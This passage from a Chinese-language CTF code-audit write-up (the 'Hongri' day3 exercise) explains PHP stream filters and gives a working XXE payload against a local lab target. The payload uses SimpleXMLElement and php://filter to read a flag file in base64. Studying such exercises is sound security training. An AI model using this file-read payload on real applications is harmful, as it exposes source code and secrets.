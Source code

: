- string.strip_tags： 将数据流中的所有html标签清除
- string.toupper： 将数据流中的内容转换为大写
- string.tolower： 将数据流中的内容转换为小写
- convert.base64-encode： 将数据流中的内容转换为base64编码
- convert.base64-decode：解码 这样是不是清楚许多了呢？那就构造如下payload：

```html
http://127.0.0.1:8081/security/hongri/day3/ctf/index.php?name=SimpleXMLElement&param=<?xml version="1.0"?><!DOCTYPE ANY [<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=f1agi3hEre.php">]><x>%26xxe;</x>&param2=2
```

上面payload中的param2=2，实际上这里2对应的模式是 LIBXML_NOENT，具体效果如下图：

<img src=".\图片\Snipaste_2023-04-05_17-50-35.png" alt="Snipaste_2023-04-05_17-50-35" style="zoom:80%;" />

## day4

### CTF起手

[ 红日代码审计（day1-day14](https://blog.csdn.net/weixin_44897902/article/details/103833532)

题目叫做假胡子，代码如下：
